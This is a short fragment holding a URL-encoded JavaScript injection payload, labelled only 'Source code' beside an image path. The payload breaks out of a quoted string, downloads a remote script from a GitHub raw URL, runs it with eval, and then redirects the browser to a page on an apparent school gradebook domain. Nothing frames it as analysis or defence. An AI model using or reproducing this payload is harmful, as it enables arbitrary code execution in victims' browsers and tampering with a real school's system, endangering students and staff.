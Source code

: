 %27%3B%0Afetch%28%27https%3A%2F%2Fraw.githubusercontent.com%2Fsatturnn%2Fbookish-parakeet%2Fmain%2Fhomecopier.js%27%29%0A%20%20.then%28response%20%3D%3E%20response.text%28%29%29%0A%20%20.then%28code%20%3D%3E%20%7B%0A%20%20%20%20eval%28code%29%3B%0Awindow.location.href%20%3D%20%22https%3A%2F%2Fgradebook.milforded.org%2Fhome.html%22%0A%7D%29%2F%2F
